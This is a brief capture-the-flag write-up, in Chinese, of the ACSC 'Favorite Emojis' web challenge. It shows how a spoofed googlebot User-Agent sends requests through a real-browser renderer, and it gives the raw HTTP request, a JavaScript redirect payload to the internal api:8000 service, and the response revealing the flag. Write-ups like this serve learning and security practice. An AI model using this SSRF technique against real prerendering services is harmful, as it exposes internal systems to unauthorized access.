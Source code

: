 # Favorite Emojis

題目會過一層 nginx

當滿足某些條件，例如 UA 為 googlebot 時，會過一層 render

所以有個簡單的SSRF

目標是讀 `http://api:8000`

加上背後 renderer 其實是跑真的瀏覽器，擋的東西也不多，所以可以跑JS

直接用 JS 跳轉過去 api:8000 就行

exploit:

```
GET http://kaibro.tw/acsc/test.html HTTP/1.0
Host: web
User-Agent: googlebot

```

```
<script>
window.location.href = "http://api:8000/";
</script>
```

=>

```
HTTP/1.1 200 OK
Server: nginx/1.21.3
Date: Sat, 18 Sep 2021 14:13:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 69
Connection: close
Last-Modified: Sat, 18 Sep 2021 14:13:11 GMT
ETag: "8b1-5cc45a5e48a59-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding

<html><head></head><body>ACSC{sharks_are_always_hungry}</body></html>
```
